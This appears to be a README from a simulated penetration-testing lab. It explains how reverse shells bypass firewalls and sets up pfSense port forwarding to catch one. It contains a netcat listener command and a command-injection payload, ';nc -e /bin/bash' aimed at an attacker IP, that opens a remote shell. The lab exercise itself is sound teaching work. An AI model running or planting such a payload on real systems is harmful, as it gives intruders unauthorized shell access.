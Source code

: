 # Stage 3: Exploiting Vulnerability

### What Is A Reverse Shell

A reverse shell is a method attackers use to access a victim's system. The reverse shell is so effective because of the way most firewalls are already configured. Most firewalls default to deny all inbound traffic but allow all outbound traffic. A reverse shell is so effective because the attacker uses an exploit to send out a shell from the victim's system to the attacker's WAN to gain access. This bypasses the firewall because it allows all traffic outbound rules to send a shell to the attacker's WAN. 

### How To Catch A Reverse Shell
To catch a reverse shell you need 3 things: 

- Listener (think: _'thing that catches reverse shell'_)
- Payload (think: _'thing that sends you a reverse shell'_)
- Port Forwarding rule (think: _'thing that forwards reverse shell from router to kali'_)


### Listener

Attacker:

```bash
nc -lvp 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-l: instructs netcat to listen for incoming connections on a specified port.

v: enables verbose mode, providing more detailed output about the connection.

p 44554: specifies the port number (44554 in this case) on which netcat should listen.

### Payload

```bash
;nc -e /bin/bash 192.168.122.209 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-e /bin/bash: specifies that netcat should execute a shell (/bin/bash) on the established connection.

192.168.122.209 44554: This specifies the target IP address (192.168.122.209) and port number (44554) to connect to.

It is important to note when executing a payload you must send the shell to the attackers WAN because the firewall rules denys all inbound traffic. This is why we create a port forwarding rule.

### Port Forwarding Rule

Because this a simulated enviroment we have to find the router/firewall. To access the router/firewall we have to understand how networking works. On the Kali box I am attacking from I run "ifconfig" to get my IP address. 

- Attacker IP address is 192.168.2.72
- The subnet is set to 255.255.255.0

In order to be on the same network the first 3 octects have to match,because of the subnet mask. In this case all devices on this network start with 192.168.2.X. Most routers are usually set to be the first or last device on the network.

I put "192.168.2.1" in the firefox browser and it brings up a pfsense GUI. 

I then go to the firewall settings to enable a port forwarding rule on port 44554 to 192.168.2.72 (attacker box).

![image](https://github.com/fabianreyyes/Simulated-Pen-Test/blob/main/media/setup.gif)
